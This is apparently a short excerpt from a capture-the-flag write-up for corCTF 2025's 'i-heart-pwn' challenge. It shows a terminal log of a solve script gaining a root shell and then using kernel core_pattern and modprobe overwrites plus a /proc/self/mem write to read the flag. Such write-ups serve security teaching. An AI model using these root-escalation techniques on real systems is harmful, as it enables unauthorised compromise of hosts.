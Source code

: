 

wanna see the solve script in action?

```shell
PWNLIB_NOTERM=1 python3 upload.py
[x] Connecting to i-heart-pwn.ctfi.ng on port 22
[+] Connecting to i-heart-pwn.ctfi.ng on port 22: Done
[x] Opening new channel: 'shell'
[+] Opening new channel: 'shell': Done
booting wait...
[*] Switching to interactive mode

////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////proc/8/fd/5
Exploit triggered!
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
root ツ TCSystems:/proc/1# 
root ツ TCSystems:/proc/1# id
id
uid=0(root) gid=0(root)
root ツ TCSystems:/proc/1# echo '|/bin/busybox sh /proc/sys/kernel/modprobe' > /proc/sys/kernel/core_pattern
<usybox sh /proc/sys/kernel/modprobe' > /proc/sys/kernel/core_pattern
root ツ TCSystems:/proc/1# echo '/bin/busybox cat /root/* > /proc/sys/kernel/modprobe' > /proc/sys/kernel/modprobe
<roc/sys/kernel/modprobe' > /proc/sys/kernel/modprobe
root ツ TCSystems:/proc/1# bash
bash
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
root ツ TCSystems:/proc/1# cd /proc/$$;read a<syscall;exec 3>mem;echo Vm95ZWxsZXMgamUgZGlyYWkgcXVlbHF1ZSBqb3VyIHZvcyBuYWlzc2FuY2VzIGxhdGVudGVzLg==|base64 -d|dd bs=1 seek=$[`echo $a|cut -d" " -f9`]>&3
<==|base64 -d|dd bs=1 seek=$[`echo $a|cut -d" " -f9`]>&3
25+0 records in
25+0 records out
root ツ TCSystems:/proc/1# cat /proc/sys/kernel/modprobe
cat /proc/sys/kernel/modprobe
corctf{https://www.youtube.com/watch?v=2rQ6ELFKejU&corctf2025=1337}

```

*nobodyisnobody still hacking is way to the heart of the machines..*

